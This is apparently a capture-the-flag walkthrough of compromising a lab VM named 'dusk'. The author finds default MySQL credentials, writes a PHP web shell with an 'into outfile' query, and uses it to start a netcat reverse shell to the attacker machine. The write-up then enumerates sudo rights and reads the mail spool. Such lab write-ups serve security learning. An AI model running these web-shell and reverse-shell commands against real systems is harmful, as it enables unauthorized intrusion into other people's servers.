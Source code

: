 80 is just the default debian page again, but 8080 seems to be a php server running off /var/tmp, listing its files and running the index.php file there. Looks pretty juicy. nikto on either failed: nothing interesting on the default page, and 8080 is basically just a ftp listing.

Speaking of, ftp did not allow anonymous access. Neither did the mysql endpoint. Playing around with SMTP didn't achieve much. Ultimately a scan with legion, and a check for default credentials, revealed mysql used `root:password`. 

## MySQL to create php shell, then reverse netcat.

The following command got me in to mysql: `mysql -u root -p -h 192.168.53.6` followed by entering the password `password`.

I browsed around for a bit, but found nothing. However, given the :8080 site was a PHP cli site which helpfully listed its exact location on the page, I tried the 'into outfile' trick and it worked:

```
MariaDB [(none)]> select '<?php system($_GET["cmd"]); ?>' into outfile '/var/tmp/cmd.php';
Query OK, 1 row affected (0.001 sec)
```

Then going to the php site, sure enough cmd.php was there. Browsing to it with `192.168.53.6:8080/cmd.php?cmd=ls` ran ls successfully. Time for a reverse netcat shell!

`192.168.53.6:8080/cmd.php?cmd=nc%20192.168.53.4%204444%20-e%20/bin/bash` plus `nc -nvlp 4444` in another prompt got me a reverse nc, then `python -c "import pty;pty.spawn('/bin/bash');"` got me a nice shell.

## On machine enumeration

As `www-data`, I ran `sudo -l`:

```
Matching Defaults entries for www-data on dusk:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on dusk:
    (dusk) NOPASSWD: /usr/bin/ping, /usr/bin/make, /usr/bin/sl
```

`ping` and `sl` won't provide anything. `make` looked promising, but even though I can execute commands with it they don't run as dusk, just me as www-data.

## Server resetting (a dead end)

However, given this server has smtp, I browsed to /var/spool/mail and found three files, for dusk, root and www-data. I copied this into /var/tmp so I could read it better, and it contains many messages that are identical (except for time):

```
From www-data@dusk.dusk  Sat Nov 30 17:50:02 2019
Return-Path: <www-data@dusk.dusk>
X-Original-To: www-data
Delivered-To: www-data@dusk.dusk
Received: by dusk.dusk (Postfix, from userid 33)
	id 17C671824; Sat, 30 Nov 2019 17:50:01 -0500 (EST)
From: root@dusk.dusk (Cron Daemon)
To: www-data@dusk.dusk
Subject: Cron <www-data@dusk> /usr/bin/php -S 192.168.1.167:8080 -t /tmp
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8
Content-Transfer-Encoding: 8bit
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/var/www>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=www-data>
Message-Id: <20191130225002.17C671824@dusk.dusk>
```